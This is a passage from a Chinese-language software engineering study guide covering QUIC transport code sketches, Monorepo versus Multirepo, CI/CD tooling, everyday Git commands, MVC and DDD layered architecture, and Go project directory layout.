    if bwSample > b.BandwidthEstimate {
        b.BandwidthEstimate = bwSample
    }
    
    // 更新最小RTT
    if rtt < b.RTTMin {
        b.RTTMin = rtt
    }
    
    // 计算 pacing rate
    b.PacingRate = b.BandwidthEstimate * 1.25 // 稍微超过估计带宽
    
    // 更新拥塞窗口
    b.CongestionWindow = uint32(b.BandwidthEstimate * b.RTTMin.Seconds())
}
```

##### 4.2 智能重传机制

```go
// QUIC的重传策略
type QUICRetransmission struct {
    Packets          map[uint64]PacketState
    SelectiveACK     []uint64 // SACK信息
    EarlyRetransmit  bool     // 快速重传
    PacketThreshold  int      // 重传阈值
    
    type PacketState struct {
        SentTime      time.Time
        Acked         bool
        Retransmitted bool
        RTT           time.Duration
    }
}

func (q *QUICRetransmission) checkForRetransmit() {
    now := time.Now()
    for seq, state := range q.Packets {
        if !state.Acked {
            // 基于RTT的超时检测
            expectedAckTime := state.SentTime.Add(state.RTT * 2)
            if now.After(expectedAckTime) && !state.Retransmitted {
                q.retransmitPacket(seq)
            }
        }
    }
}
```

#### 5. 应用场景分析

##### 5.1 实时视频会议

```go
// 视频会议中的QUIC优势
type VideoConferenceBenefits struct {
    LowLatency       bool   // 低延迟（0-RTT连接）
    StreamIndependence bool // 音视频流独立
    NetworkRoaming    bool   // 网络切换无感知
    FECSupport       bool   // 前向纠错减少卡顿
}

func optimizeVideoConference() {
    config := QUICConfig{
        MaxBandwidth:    10 * 1024 * 1024, // 10Mbps
        MinRTT:          50 * time.Millisecond,
        StreamPriority: map[StreamType]int{
            AudioStream: 10, // 音频优先级最高
            VideoStream: 8,
            DataStream:  5,
        },
        FECEnabled:     true,
    }
}
```

##### 5.2 移动端应用

```go
// 移动网络优化
type MobileOptimization struct {
    NetworkSwitching bool // 4G/Wi-Fi切换
    PoorConditions   bool // 弱网环境
    BatteryEfficiency bool // 电量效率
    
    // QUIC在移动端的优势
    Benefits struct {
        FasterHandshake    bool // 快速握手
        BetterLossRecovery bool // 更好的丢包恢复
        ConnectionPersistence bool // 连接持久性
    }
}

func mobileAppUsageScenario() {
    // 移动电商应用
    scenario := UsageScenario{
        Requirements: []string{
            "快速页面加载",
            "支付低延迟", 
            "商品图片高效传输",
            "网络切换无感知",
        },
        QUICFeatures: []string{
            "0-RTT连接恢复",
            "多路复用",
            "连接迁移",
            "智能重传",
        },
    }
}
```

##### 5.3 大规模内容分发

```go
// CDN优化场景
type CDNOptimization struct {
    EdgeServers      int      // 边缘服务器数量
    UserDistribution []string // 用户分布
    ContentTypes     []string // 内容类型
    
    // QUIC带来的CDN改进
    Improvements struct {
        ReducedLatency      float64 // 延迟降低百分比
        ThroughputIncrease  float64 // 吞吐量提升
        ConnectionSuccessRate float64 // 连接成功率提升
    }
}

func cdnPerformanceMetrics() {
    metrics := PerformanceMetrics{
        TCPBasedCDN: CDNMetrics{
            AvgRTT:          120 * time.Millisecond,
            Throughput:      5.2 * 1024 * 1024, // 5.2 Mbps
            ErrorRate:       2.1,               // 2.1%
        },
        QUICBasedCDN: CDNMetrics{
            AvgRTT:          75 * time.Millisecond,  // -37.5%
            Throughput:      7.8 * 1024 * 1024,     // +50%
            ErrorRate:       0.8,                   // -62%
        },
    }
}
```


# 工程素养篇（中级）

## 编码能力

### **代码管理**

> Monorepo/Multirepo，理解大仓优缺点，代码复用/依赖管理/代码规范审查/构建工具链建设

#### 1. Monorepo vs Multirepo 

##### 定义

| 特性         | Monorepo（单体仓库）                | Multirepo（多体仓库）         |
| :----------- | :---------------------------------- | :---------------------------- |
| **定义**     | 多个项目/模块存放在同一个代码仓库中 | 每个项目/模块有独立的代码仓库 |
| **管理单元** | 整个代码库作为一个单元管理          | 每个仓库独立管理              |
| **典型代表** | Google, Facebook, Microsoft         | 大多数开源项目，传统企业      |

##### **Monorepo 优势**与劣势

```
优势：
1. 代码共享和复用
2. 原子提交和统一版本
# 一次提交，多个相关更改
git commit -m "feat: 用户认证系统
- 添加共享认证组件
- 更新Web应用认证逻辑  
- 移动端集成新认证
- API客户端添加认证头"
3. 简化依赖管理
4. 工具链统一

劣势：
1. 工具链复杂性
2. 性能问题  ==》 仓库体积巨大，影响操作速度
3. 权限管理复杂
```


**Multirepo 优势**与劣势

```
优势：
1. 明确的代码所有权
# 每个团队负责独立仓库
frontend-team/    # 前端团队权限
backend-team/     # 后端团队权限 

2. 独立的发布周期
# 各项目可以独立发布
web-app/     # 每周发布
mobile-app/  # 应用商店审核周期

3. 工具简单化
# 标准Git工作流
git clone repo-frontend
git clone repo-backend

4. 安全隔离
// 敏感配置隔离
// backend-repo/config/secrets.js
module.exports = {
    databasePassword: 'secret123',  // 后端团队可访问
    apiKeys: { /* 敏感信息 */ }
};


劣势：
1. 依赖管理困难
2. 跨项目更改复杂
3. 代码重复

```


##### 架构示意图

**Multirepo 架构**：

```
project-frontend/          project-backend/          project-mobile/
├── package.json           ├── package.json         ├── package.json
├── src/                   ├── src/                 ├── src/
└── README.md              └── README.md            └── README.md
```

**Monorepo 架构**：

```
monorepo/
├── packages/
│   ├── frontend/          # 前端应用
│   ├── backend/           # 后端服务  
│   ├── mobile/           # 移动端
│   ├── ui-components/    # 共享UI组件
│   └── utils/           # 工具库
├── package.json          # 根目录配置
├── turbo.json           # 构建工具配置
└── README.md
```


##### 关键对比

**核心差异速览表**

| 维度         | Monorepo（大仓，单体仓库） | Multirepo（多仓，多体仓库） |
| :----------- | :------------------------- | :-------------------------- |
| **代码复用** | ⭐⭐⭐⭐⭐ 直接引用             | ⭐⭐ 需要发布包               |
| **依赖管理** | ⭐⭐⭐⭐⭐ 统一版本             | ⭐⭐ 容易冲突                 |
| **重构安全** | ⭐⭐⭐⭐⭐ 原子提交             | ⭐⭐ 跨仓库协调               |
| **构建性能** | ⭐⭐ 需要工具优化            | ⭐⭐⭐⭐⭐ 独立构建              |
| **权限控制** | ⭐⭐ 目录级控制复杂          | ⭐⭐⭐⭐⭐ 仓库级控制            |
| **团队自治** | ⭐⭐ 需要协调                | ⭐⭐⭐⭐⭐ 完全独立              |
| **入门门槛** | ⭐⭐ 工具链复杂              | ⭐⭐⭐⭐⭐ 简单直接              |

**选择决策指南**

```
选择 Monorepo 当：
✅ 项目高度关联，需要频繁共享代码
✅ 团队规模大，需要统一规范
✅ 有资源建设和维护工具链
✅ 追求开发体验和重构效率

选择 Multirepo 当：
✅ 项目相对独立，团队自治性强
✅ 技术栈差异大，构建需求不同
✅ 团队规模小，工具链资源有限
✅ 需要严格的权限隔离
```


#### 2. 代码复用与依赖管理

##### Monorepo 代码复用模式

```
# 项目结构
packages/
  ├── shared/           # 通用工具库
  ├── ui-components/    # 共享UI组件
  ├── configs/         # 配置文件
  ├── web-app/         # 前端应用
  └── mobile-app/      # 移动端应用

# 依赖引用
"dependencies": {
  "@project/shared": "workspace:*",
  "@project/ui-components": "workspace:*"
}
```

##### 依赖管理最佳实践

1. **版本锁定**：使用 package-lock.json 或 yarn.lock
2. **依赖提升**：Monorepo中共享node_modules
3. **循环依赖检测**：工具自动检查并告警
4. **安全扫描**：集成漏洞检测工具

#### 3. 代码规范与审查体系

##### 代码规范配置

```
// .eslintrc.js
module.exports = {
  extends: ['@company/eslint-config'],
  rules: {
    'complexity': ['error', 10],        // 圈复杂度限制
    'max-lines': ['error', 300],        // 文件行数限制
    'no-console': 'warn'                // 控制台使用警告
  }
};

// .prettierrc.js
module.exports = {
  semi: true,
  trailingComma: 'es5',
  singleQuote: true,
  printWidth: 100
};
```

##### 代码审查清单

- [ ] 功能实现是否符合需求
- [ ] 代码风格是否一致
- [ ] 测试覆盖是否充分
- [ ] 文档更新是否完整
- [ ] 性能影响是否评估
- [ ] 安全风险是否排查


#### 4.构建工具链建设(CI/CD)

##### CI/CD 核心概念

###### CI - **持续集成** (Continuous Integration)

**定义**：开发人员频繁地将代码变更合并到共享主干（通常每天多次）的软件开发实践。

**核心流程**：

```
代码提交 → 自动构建 → 自动化测试 → 快速反馈
```

**关键特征**：

- ✅ **频繁集成**：每日多次代码合并
- ✅ **自动化构建**：每次提交触发自动构建
- ✅ **快速测试**：运行单元测试、集成测试
- ✅ **即时反馈**：快速发现集成问题


###### CD-**持续交付** (Continuous Delivery)

**定义**：确保代码变更可以安全、快速地部署到生产环境，但部署决策由人工控制。

**核心流程**：

```
CI通过后 → 自动化部署到类生产环境 → 人工触发生产部署
```

**关键特征**：

- ✅ **随时可部署**：代码始终处于可部署状态
- ✅ **人工决策**：由人工决定何时部署到生产
- ✅ **降低风险**：部署前进行人工验证


###### **CD-持续部署** (Continuous Deployment)

**定义**：代码变更通过CI流水线后，自动部署到生产环境，无需人工干预。

**核心流程**：

```
CI通过后 → 自动部署到生产环境
```

**关键特征**：

- ✅ **完全自动化**：无需人工干预的部署
- ✅ **快速交付**：变更快速到达用户
- ✅ **高风险**：需要极高的测试覆盖率和质量标准


| 方面           | 持续集成 (CI)    | 持续交付 (CD)  | 持续部署 (CD) |
| :------------- | :--------------- | :------------- | :------------ |
| **缩写**       | CI               | CD             | CD            |
| **核心目标**   | 代码质量保证     | 交付就绪状态   | 自动发布价值  |
| **自动化程度** | 构建和测试自动化 | 部署流程自动化 | 全流程自动化  |
| **人工干预**   | 无               | 部署决策人工   | 无            |
| **风险等级**   | 低               | 中             | 高            |
| **发布频率**   | 天/小时级        | 天/周级        | 小时/分钟级   |


##### **主流 CI/CD 工具链**

###### **1. 代码托管与协作**(github)

| 工具          | 类型        | 特点                  |
| :------------ | :---------- | :-------------------- |
| **GitHub**    | SaaS        | 生态丰富，Actions集成 |
| **GitLab**    | 自托管/SaaS | 内置完整CI/CD         |
| **Bitbucket** | SaaS        | 与Jira深度集成        |
| **Gitea**     | 自托管      | 轻量开源              |

###### **2. CI/CD 流水线平台**

```
# GitHub Actions 示例
name: CI Pipeline
on: [push]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - uses: actions/setup-node@v3
      - run: npm install && npm test
  
  build:
    needs: test
    runs-on: ubuntu-latest  
    steps:
      - run: npm run build
```

| 平台               | 特点           | 适用场景       |
| :----------------- | :------------- | :------------- |
| **Jenkins**        | 老牌，插件丰富 | 复杂定制化需求 |
| **GitLab CI**      | 代码仓库集成   | 一体化开发体验 |
| **GitHub Actions** | 生态强大       | GitHub项目首选 |
| **CircleCI**       | 云原生友好     | 容器化应用     |

###### **3. 构建工具(docker)**

```
# 多阶段构建示例
FROM node:16 AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci
COPY . .
RUN npm run build

FROM nginx:alpine
COPY --from=builder /app/dist /usr/share/nginx/html
```

| 语言           | 构建工具           | 特点         |
| :------------- | :----------------- | :----------- |
| **Java**       | Maven, Gradle      | 依赖管理强大 |
| **JavaScript** | npm, yarn, pnpm    | 生态丰富     |
| **Go**         | go build           | 简单高效     |
| **Python**     | setuptools, poetry | 虚拟环境管理 |

###### **4. 制品仓库**

```
# 发布到制品库
npm publish                          # npm registry
docker push myapp:1.0.0              # Docker registry
mvn deploy                           # Maven repository
```

| 类型       | 工具               | 管理内容       |
| :--------- | :----------------- | :------------- |
| **包管理** | npm, Maven, PyPI   | 语言特定包     |
| **容器**   | Docker Hub, Harbor | 镜像文件       |
| **通用**   | JFrog Artifactory  | 任意二进制文件 |

###### **5. 部署工具(k8s)**

```
# Kubernetes 部署示例
apiVersion: apps/v1
kind: Deployment
metadata:
  name: myapp
spec:
  replicas: 3
  template:
    spec:
      containers:
      - name: app
        image: myapp:1.0.0
        ports:
        - containerPort: 3000
```

| 工具           | 部署目标 | 特点           |
| :------------- | :------- | :------------- |
| **Kubernetes** | 容器编排 | 云原生标准     |
| **Ansible**    | 服务器   | 声明式配置     |
| **Terraform**  | 基础设施 | 基础设施即代码 |
| **Serverless** | 无服务器 | 事件驱动       |


### Git 代码版本控制核心要点

#### 1. Git 基础概念

**核心三区**

```
工作区 (Working Directory)     → 暂存区 (Staging Area)     → 仓库 (Repository)
     (已修改文件)                   (git add 添加)             (git commit 提交)
```

**文件状态生命周期**

```
未跟踪 (Untracked) → 已修改 (Modified) → 已暂存 (Staged) → 已提交 (Committed)
```


#### 2. 日常开发常用命令

##### 基础工作流

```
# 克隆仓库
git clone <仓库地址>

# 查看状态
git status

# 添加文件到暂存区
git add <文件名>           # 添加特定文件
git add .                 # 添加所有修改

# 提交更改
git commit -m "提交描述"

# 推送到远程
git push origin <分支名>
```

##### 分支管理（branch）

```
# 查看分支
git branch                 # 本地分支
git branch -a              # 所有分支（含远程）

# 创建分支
git branch <新分支名>
git checkout -b <新分支名>  # 创建并切换

# 切换分支
git checkout <分支名>
git switch <分支名>         # 新版本推荐

# 合并分支
git merge <要合并的分支>

# 删除分支
git branch -d <分支名>     # 安全删除
git branch -D <分支名>     # 强制删除
```


#### 3. 团队协作规范

##### 分支策略模型

**Git Flow（经典模型）**

```
main (master)     → 生产代码
  ↑
release/*         → 发布分支
  ↑  
develop          → 开发主干
  ↑
feature/*        → 功能分支
```

**GitHub Flow（简化模型）**

```
main (master)     → 可部署代码
  ↑
feature/*        → 功能分支（PR合并）
```

##### 提交信息规范

```
# 格式：类型(范围): 描述
feat(auth): 添加用户登录功能
fix(api): 修复用户查询接口500错误
docs: 更新API文档
style: 调整代码格式
refactor: 重构支付模块
test: 添加用户服务测试
chore: 更新依赖版本
```


#### 4. 代码回退与撤销（reset）

##### 撤销工作区修改

```
# 撤销单个文件修改
git checkout -- <文件名>

# 撤销所有修改
git checkout -- .

# 撤销添加到暂存区的文件
git reset HEAD <文件名>
```

##### 版本回退

```
# 查看提交历史
git log --oneline

# 回退到指定版本
git reset --hard <commit_id>

# 回退到上一个版本
git reset --hard HEAD^

# 撤销提交但保留更改
git reset --soft HEAD^
```


#### 5. 远程仓库操作

##### 远程仓库管理

```
# 查看远程仓库
git remote -v

# 添加远程仓库
git remote add origin <仓库地址>

# 拉取远程更新
git pull origin <分支名>

# 推送到远程
git push -u origin <分支名>  # 首次推送
git push                     # 后续推送

# 获取远程分支
git fetch origin
git checkout -b <本地分支> origin/<远程分支>
```


#### 6. 高级技巧

##### 储藏更改 （stash）

```
# 临时储藏工作区
git stash

# 查看储藏列表
git stash list

# 恢复储藏
git stash pop              # 恢复并删除
git stash apply           # 恢复但不删除

# 删除储藏
git stash drop
```


##### 标签管理(tag)

```
# 创建标签
git tag v1.0.0

# 推送标签
git push origin --tags

# 查看标签
git tag
```


##### 比较差异(diff)

```
# 比较工作区和暂存区
git diff

# 比较暂存区和最新提交
git diff --staged

# 比较两个分支
git diff branch1..branch2

# 比较特定文件
git diff <文件路径>
```


#### 7. 配置优化

##### 全局配置(config)

```
# 用户信息
git config --global user.name "你的姓名"
git config --global user.email "你的邮箱"

# 默认编辑器
git config --global core.editor "code --wait"

# 别名配置
git config --global alias.co checkout
git config --global alias.br branch
git config --global alias.ci commit
git config --global alias.st status
```

##### .gitignore 文件

```
# 依赖文件
node_modules/
vendor/

# 日志文件
*.log
logs/

# 环境配置
.env
.env.local

# 系统文件
.DS_Store
Thumbs.db

# 构建输出
dist/
build/
```


#### 8. 问题排查与调试

##### 查看历史记录

```
# 图形化查看
git log --oneline --graph --all

# 查看特定文件的修改历史
git log -p <文件路径>

# 查看谁修改了某行代码
git blame <文件名>
# 输出示例：
# ^b7d3a8d (张三 2024-01-15 10:30:25 +0800 1) # 项目标题
[提交哈希     (作者   日期时间          行号) 代码内容]


```

##### 找回丢失的提交

```
# 查看所有操作记录
git reflog

# 重置到特定操作
git reset --hard <操作ID>
```


#### 9. 团队协作最佳实践

##### 代码审查流程

```
# 1. 从main拉取功能分支
git checkout -b feature/user-auth

# 2. 开发并提交
git add .
git commit -m "feat(auth): 实现用户认证"

# 3. 推送到远程
git push -u origin feature/user-auth

# 4. 创建Pull Request（在GitHub/GitLab界面）

# 5. 代码审查后合并
```

##### 解决合并冲突

```
# 拉取最新代码（可能产生冲突）
git pull origin main

# 手动解决冲突后
git add .
git commit -m "解决合并冲突"
git push
```


### **代码架构**

> MVC/DDD，理解DDD分层架构设计思想，用户接口层/应用层/领域层/基础设施层

#### 1. MVC 架构模式

##### 1.1 基础概念

**MVC（Model-View-Controller）** - 关注表现层的分离

**三层职责**

| 组件                     | 职责                          | 示例                            |
| :----------------------- | :---------------------------- | :------------------------------ |
| **Model（模型）**        | 数据和业务逻辑                | User, Order, Product            |
| **View（视图）**         | 用户界面展示                  | HTML页面, UI组件                |
| **Controller（控制器）** | 处理用户输入，协调Model和View | UserController, OrderController |

==> java 项目的常用架构

##### 1.2 典型工作流

```
用户操作 → Controller接收 → 调用Model处理 → 返回View展示
    ↑                                   ↓
    └─────── 更新View ────────┘
```

##### 1.3 代码示例

```java
// Model
public class User {
    private String id;
    private String name;
    private String email;
    
    // 业务逻辑
    public boolean isValid() {
        return email != null && email.contains("@");
    }
}

// View (JSP示例)
<html>
<body>
    <h1>用户: ${user.name}</h1>
    <p>邮箱: ${user.email}</p>
</body>
</html>

// Controller
@Controller
public class UserController {
    @Autowired
    private UserService userService;
    
    @GetMapping("/users/{id}")
    public String getUser(@PathVariable String id, Model model) {
        User user = userService.findById(id);
        model.addAttribute("user", user);
        return "user-detail"; // 视图名称
    }
}
```

##### 1.4 MVC 的局限性

- ❌ **业务逻辑分散**：业务代码可能泄漏到Controller
- ❌ **数据库耦合**：Model通常直接映射数据表
- ❌ **测试困难**：依赖框架，难以单元测试
- ❌ **规模扩展难**：复杂业务时代码混乱


#### 2. DDD 分层架构

##### 2.1 DDD 核心概念

**领域驱动设计（Domain-Driven Design）** - 以业务领域为核心的架构方法

##### 2.2 四层架构详解

```
用户接口层 (Interface Layer)
    ↓
应用层 (Application Layer)  
    ↓
领域层 (Domain Layer)       ←→ 基础设施层 (Infrastructure Layer)
```


#### 3. DDD 四层架构深度解析

##### 3.1 用户接口层（Interface Layer）

**职责**：处理用户交互和外部系统通信  ==》类似gateway网关层

**组件构成：**

```java
// 1. Controller（REST API）
@RestController
@RequestMapping("/api/orders")
public class OrderController {
    private final CreateOrderApplicationService appService;
    
    @PostMapping
    public ResponseEntity<OrderResponse> createOrder(@RequestBody CreateOrderRequest request) {
        OrderResponse response = appService.createOrder(request);
        return ResponseEntity.ok(response);
    }
}

// 2. DTO（数据传输对象）
public class CreateOrderRequest {
    private List<OrderItemDTO> items;
    private String customerId;
    private String shippingAddress;
    
    // 只有getter/setter，无业务逻辑
}

// 3. 身份验证、权限检查等
@Component
public class JwtAuthenticationFilter extends OncePerRequestFilter {
    protected void doFilterInternal(...) {
        // JWT令牌验证
    }
}
```


##### 3.2 应用层（Application Layer）

**职责**：协调领域对象完成用例，事务边界

**核心特征**

- ✅ **用例导向**：每个方法对应一个用户用例
- ✅ **薄层**：不包含业务逻辑，只是协调
- ✅ **事务边界**：通常一个方法一个事务

```go
// 应用服务
@Service
@Transactional
public class OrderApplicationService {
    private final OrderRepository orderRepository;
    private final ProductRepository productRepository;
    private final DomainEventPublisher eventPublisher;
    
    public OrderResponse createOrder(CreateOrderCommand command) {
        // 1. 获取领域对象
        Customer customer = customerRepository.findById(command.getCustomerId());
        List<Product> products = productRepository.findByIds(command.getProductIds());
        
        // 2. 调用领域服务
        Order order = Order.create(customer, products, command.getShippingAddress());
        
        // 3. 持久化
        orderRepository.save(order);
        
        // 4. 发布领域事件
        eventPublisher.publish(new OrderCreatedEvent(order.getId()));
        
        // 5. 返回DTO
        return OrderResponse.from(order);
    }
    
    public void cancelOrder(String orderId) {
        Order order = orderRepository.findById(orderId);
        order.cancel(); // 领域逻辑在Order实体中
        orderRepository.save(order);
    }
}
```

##### 3.3 领域层（Domain Layer） - DDD核心

**职责**：包含业务逻辑和规则，最核心的一层

###### 领域层组件

**实体（Entity）**

```java
// 有唯一标识的对象
public class Order extends AggregateRoot<OrderId> {
    private OrderId id;
    private CustomerId customerId;
    private OrderStatus status;
    private Money totalAmount;
    private List<OrderItem> items;
    private Address shippingAddress;
    
    // 业务方法
    public void cancel() {
        if (status == OrderStatus.SHIPPED) {
            throw new IllegalStateException("已发货订单不能取消");
        }
        this.status = OrderStatus.CANCELLED;
        addDomainEvent(new OrderCancelledEvent(this.id));
    }
    
    public void addItem(Product product, int quantity) {
        // 业务规则验证
        if (quantity <= 0) {
            throw new IllegalArgumentException("数量必须大于0");
        }
        this.items.add(new OrderItem(product, quantity));
        calculateTotalAmount();
    }
    
    private void calculateTotalAmount() {
        this.totalAmount = items.stream()
            .map(OrderItem::getSubtotal)
            .reduce(Money.ZERO, Money::add);
    }
}
```

**值对象（Value Object）**

```go
// 无标识，通过属性定义的对象
public class Money {
    private final BigDecimal amount;
    private final Currency currency;
    
    public Money(BigDecimal amount, Currency currency) {
        this.amount = amount;
        this.currency = currency;
    }
    
    public Money add(Money other) {
        if (!this.currency.equals(other.currency)) {
            throw new IllegalArgumentException("货币单位不一致");
        }
        return new Money(this.amount.add(other.amount), this.currency);
    }
    
    // 值对象基于属性相等
    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof Money)) return false;
        Money money = (Money) o;
        return amount.compareTo(money.amount) == 0 && 
               currency.equals(money.currency);
    }
}
```

**领域服务（Domain Service）**

```
// 处理不适合放在实体中的业务逻辑
@Service
public class OrderPricingService {
    public PricingResult calculatePrice(Order order, PricingContext context) {
        // 复杂的定价逻辑
        Money basePrice = calculateBasePrice(order);
        Money discount = calculateDiscount(order, context);
        Money tax = calculateTax(order, context);
        
        return new PricingResult(basePrice, discount, tax);
    }
}
```

**领域事件（Domain Event）** ？？

```
// 表示领域中发生的事件
public class OrderCreatedEvent implements DomainEvent {
    private final OrderId orderId;
    private final Instant occurredOn;
    
    public OrderCreatedEvent(OrderId orderId) {
        this.orderId = orderId;
        this.occurredOn = Instant.now();
    }
}
```

**领域事件**是**领域模型中发生的、对业务有重要意义的事情**的表示。


💡 **核心特征**

| 特征         | 说明               | 示例                             |
| :----------- | :----------------- | :------------------------------- |
| **过去时**   | 描述已发生的事     | `OrderCreated`而非 `CreateOrder` |
| **不可变**   | 事件发生后不可更改 | 就像历史事实                     |
| **业务含义** | 反映业务价值变化   | 而不仅是技术操作                 |


##### 3.4 基础设施层（Infrastructure Layer）

**职责**：技术实现细节，为其他层提供技术支持

**组件示例**

```java
// 1. 仓储实现（Repository Implementation）
@Repository
public class JpaOrderRepository implements OrderRepository {
    private final OrderJpaRepository jpaRepository;
    private final OrderMapper mapper;
    
    @Override
    public Order findById(OrderId id) {
        OrderEntity entity = jpaRepository.findById(id.getValue())
            .orElseThrow(() -> new OrderNotFoundException(id));
        return mapper.toDomain(entity);
    }
    
    @Override
    public void save(Order order) {
        OrderEntity entity = mapper.toEntity(order);
        jpaRepository.save(entity);
        
        // 发布领域事件
        order.getDomainEvents().forEach(event -> eventPublisher.publish(event));
        order.clearDomainEvents();
    }
}

// 2. 外部服务调用
@Component  
public class EmailServiceClient implements NotificationService {
    private final RestTemplate restTemplate;
    
    public void sendOrderConfirmation(Order order) {
        EmailRequest request = createEmailRequest(order);
        restTemplate.postForObject("/emails", request, Void.class);
    }
}

// 3. 数据库配置、消息队列等
@Configuration
public class JpaConfig {
    @Bean
    public LocalContainerEntityManagerFactoryBean entityManagerFactory() {
        // JPA配置
    }
}
```


#### 4. 依赖方向与架构原则

##### 4.1 依赖关系

```
用户接口层 → 应用层 → 领域层 ← 基础设施层
    ↓          ↓                    ↑
    └───────────┴──→ DTO ───────────┘
```

**DTO** 是 **数据传输对象（Data Transfer Object）** 的缩写，是在分层架构中用于**层间数据传输的简单容器对象**。

##### 4.2 依赖倒置原则（DIP）

```java
// 领域层定义接口
public interface OrderRepository {
    Order findById(OrderId id);
    void save(Order order);
    List<Order> findByCustomerId(CustomerId customerId);
}

// ✅ 正确：基础设施层（低层）实现抽象
public class JpaOrderRepository implements OrderRepository { // 实现抽象
    // 具体实现细节...
}

// ✅ 正确：领域层（高层）依赖抽象
public class OrderService { // 领域服务，高层模块
    private final OrderRepository repository; // 依赖抽象接口
    
    public OrderService(OrderRepository repository) {
        this.repository = repository; // 依赖注入
    }
    
    public void processOrder(OrderId id) {
        Order order = repository.findById(id); // 使用抽象
        // 业务逻辑...
    }
}
```

**DIP定义：**

- **高层模块**不应该依赖**低层模块**，两者都应该依赖**抽象**
- **抽象**不应该依赖**细节**，**细节**应该依赖**抽象**




#### 5. 完整案例：订单系统

##### 5.1 项目结构

```
src/
├── main/
│   ├── java/
│   │   ├── com/example/
│   │   │   ├── application/          # 应用层
│   │   │   │   ├── OrderApplicationService.java
│   │   │   │   └── dto/              # DTO
│   │   │   ├── domain/               # 领域层
│   │   │   │   ├── model/            # 领域模型
│   │   │   │   │   ├── Order.java
│   │   │   │   │   ├── OrderItem.java
│   │   │   │   │   └── value/        # 值对象
│   │   │   │   ├── service/          # 领域服务  
│   │   │   │   ├── event/            # 领域事件
│   │   │   │   └── repository/       # 仓储接口
│   │   │   ├── infrastructure/       # 基础设施层
│   │   │   │   ├── persistence/      # 持久化实现
│   │   │   │   ├── external/         # 外部服务
│   │   │   │   └── config/           # 配置
│   │   │   └── interfaces/           # 用户接口层
│   │   │       ├── web/              # Web控制器
│   │   │       └── dto/              # 请求/响应DTO
```

##### 5.2 完整工作流

```go
// 1. 控制器接收请求
@PostMapping("/orders")
public OrderResponse createOrder(@RequestBody CreateOrderRequest request) {
    CreateOrderCommand command = mapper.toCommand(request);
    return orderAppService.createOrder(command);
}

// 2. 应用服务协调
public OrderResponse createOrder(CreateOrderCommand command) {
    // 验证、协调领域对象、持久化、发布事件
    Customer customer = customerRepo.findById(command.getCustomerId());
    Order order = Order.create(customer, command.getItems());
    orderRepo.save(order);
    eventPublisher.publish(new OrderCreatedEvent(order.getId()));
    return OrderResponse.from(order);
}

// 3. 领域对象处理业务逻辑
public class Order {
    public static Order create(Customer customer, List<OrderItem> items) {
        // 业务规则验证
        if (items.isEmpty()) {
            throw new EmptyOrderException();
        }
        
        Order order = new Order(generateOrderId(), customer.getId(), items);
        order.calculateTotalAmount();
        return order;
    }
}
```

#### 6. DDD 分层优势总结

**架构优势对比**

| 方面             | MVC              | DDD分层            |
| :--------------- | :--------------- | :----------------- |
| **业务逻辑集中** | 分散在各处       | 集中在领域层       |
| **可测试性**     | 依赖框架，难测试 | 领域层可独立测试   |
| **技术无关性**   | 与技术框架耦合   | 领域逻辑纯Java     |
| **演进能力**     | 修改影响面大     | 各层独立演进       |
| **复杂度管理**   | 随着业务变复杂   | 通过限界上下文分解 |

**适用场景**

**选择 MVC 当**：

- 简单CRUD应用
- 快速原型开发
- 团队规模小，业务简单

**选择 DDD 当**：

- 复杂业务领域
- 长期演进的大型系统
- 需要高度可维护性
- 多团队协作开发


### **目录结构**

> go规范清晰layout，参考 [golang-standards](https://github.com/golang-standards/project-layout)

#### 1. 标准目录结构（参考 Go 标准）

##### 1.1 基础项目布局

```
my-project/
├── cmd/                 # 应用程序入口
├── internal/            # 私有应用和库代码
├── pkg/                # 公共库代码
├── api/                # API 定义文件
├── web/                # Web 相关资源
├── configs/            # 配置文件
├── deployments/        # 部署配置
├── test/              # 测试相关
├── docs/              # 文档 docs
├── examples/           # 示例代码
├── vendor/            # 依赖包（Go modules 前）
├── third_party/       # 外部工具和第三方代码
├── scripts/          # 脚本文件
├── build/            # 构建相关
├── init/             # 系统初始化文件
├── Makefile          # 构建脚本
├── go.mod           # Go 模块定义
└── README.md        # 项目说明
```

#### 2. 详细目录说明

##### 2.1 核心目录详解

###### cmd/ - 应用程序入口

```
cmd/
├── app1/            # 应用1入口
│   ├── main.go
│   └── config.yaml
├── app2/            # 应用2入口  
│   └── main.go
└── migration/       # 数据库迁移工具
    └── main.go
```

**示例代码**：

```
// cmd/api/main.go
package main

import (
    "my-project/internal/api"
    "my-project/internal/config"
)

func main() {
    cfg := config.Load()
    server := api.NewServer(cfg)
    server.Run()
}
```

###### internal/ - 私有代码（外部无法导入）

```
internal/
├── api/             # HTTP API 层
│   ├── handler/     # HTTP 处理器
│   ├── middleware/  # 中间件
│   └── router.go    # 路由定义
├── service/         # 业务逻辑层
│   ├── user.go
│   ├── order.go
│   └── interface.go # 服务接口
├── repository/      # 数据访问层
│   ├── user.go
│   ├── order.go
